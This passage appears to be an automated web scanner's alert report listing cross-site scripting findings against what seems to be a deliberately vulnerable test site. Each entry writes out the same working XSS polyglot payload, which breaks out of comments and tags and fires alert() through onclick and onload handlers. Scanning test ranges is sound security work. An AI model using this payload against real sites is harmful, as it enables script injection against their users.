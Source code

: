   * Other Info: ``
* URL: https://public-firing-range.appspot.com/urldom/location/hash/document.location%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/urldom/location/hash/embed.src%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/urldom/location/hash/form.action%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
* URL: https://public-firing-range.appspot.com/urldom/location/hash/iframe.src%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/urldom/location/hash/input.formaction%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `
* URL: https://public-firing-range.appspot.com/urldom/location/hash/object.data%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `GET`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/form%23jaVasCript:/*-/*%60/*%5C%60/*'/*%22/**/(/*%20*/oNcliCk=alert(5397&29%20&29//%250D%250A%250d%250a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E%5Cx3csVg/%3CsVg/oNloAd=alert(5397&29//%3E%5Cx3e
  * Method: `POST`
  * Parameter: ``
  * Attack: `#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(5397) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(5397)//>\x3e`
  * Evidence: ``
  * Other Info: `Tag name: input Att name:  Att id: `